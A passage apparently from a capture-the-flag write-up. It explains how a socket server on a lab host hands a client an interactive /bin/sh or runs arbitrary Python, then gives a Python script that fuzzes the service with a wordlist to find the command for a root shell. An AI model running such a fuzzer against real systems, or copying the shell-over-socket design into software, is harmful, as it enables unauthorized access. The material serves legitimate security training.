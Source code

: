 If data == 'some_endpoint', it calls get_this_enpoint(client_socket) (though the function itself isn't shown in the snippet).

If the data isn't 'some_endpoint', it checks if the script is being run as the root user (UID 0). If so, it calls change_uid() — possibly a safety mechanism to drop privileges.

If data == 'shell', it calls the shell(client_socket) function, which:

Redirects standard input/output/error to the socket.

Spawns an interactive shell (/bin/sh) using the pty module. This essentially gives the connected client a fully interactive shell on the system.

For any other value of data, it calls exec_python(client_socket, data), likely to evaluate or execute arbitrary Python code sent over the socket.

so now we have to find the "data" the server is looking for to attempt and get a shell as root 
here is a python script that automates this 
```terminal        
import socket

IP = "10.10.100.37"
PORT = 8000
WORDLIST_PATH = "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt"  # Adjust path if needed

def fuzz_words(ip, port, wordlist_path):
    with open(wordlist_path, "r") as f:
        words = [line.strip() for line in f if line.strip() and not line.startswith("#")]
    
    for word in words:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(2)
            s.connect((ip, port))

            # First send "data"
            s.sendall(b"data\n")
            s.recv(1024)  # Flush the prompt

            # Then send the word
            s.sendall((word + "\n").encode())
            response = s.recv(1024).decode(errors="ignore")

            print(f"Trying: {word} → {response.strip()}")

            # Filter out common error messages and false positives
            if all(err not in response for err in [
                "is not defined", "Traceback", "SyntaxError", "leading zeros",
                "invalid", "NameError", "Error", "Exception"
            ]) and response.strip():
                print(f"\n✅ Possible match found: {word}")
                print("Server response:", response.strip())
                break

            s.close()

        except Exception as e:
            print(f"Error trying {word}: {e}")
            continue

if __name__ == "__main__":
    fuzz_words(IP, PORT, WORDLIST_PATH)
```
